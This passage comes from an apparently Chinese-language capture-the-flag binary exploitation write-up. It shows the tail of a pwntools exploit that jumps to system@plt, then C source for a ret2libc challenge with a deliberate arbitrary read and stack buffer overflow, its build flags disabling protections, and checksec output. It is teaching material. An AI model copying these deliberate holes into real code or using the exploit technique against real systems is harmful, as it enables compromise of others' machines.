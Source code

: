 ```python
p += p64(0x401080) # <system@plt> address
r.send(p)

r.interactive()
```

---

> update: 2020-10-31

## ret2libc

### 源码

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char const *argv[])
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char addr[16];
  char buf[16];
  printf("You have one chance to read the memory!\n");
  printf("Give me the address in hex: ");
  read(0, addr, 0x10);
  unsigned long long iaddr = strtoll(addr, 0, 16);
  printf("\nContent: %lld\n", *(unsigned long long *)iaddr);
  printf("Give me your messege: ");
  read(0, buf, 0x90);
  return 0;
}
```

### Makefile

`gcc -fno-stack-protector -no-pie -o ret2libc re2libc.c`

### 考点

`strtoll()`函数功能：将字符串转成`long long`型的值

Return to libc

libc 中有许多可以利用的程序片段，可以让我们使用`system`或`execve`等可以开shell的函数

### 分析

1. `checksec`分析

   ```
   [*] '/ctf/work/ret2libc'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```


[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*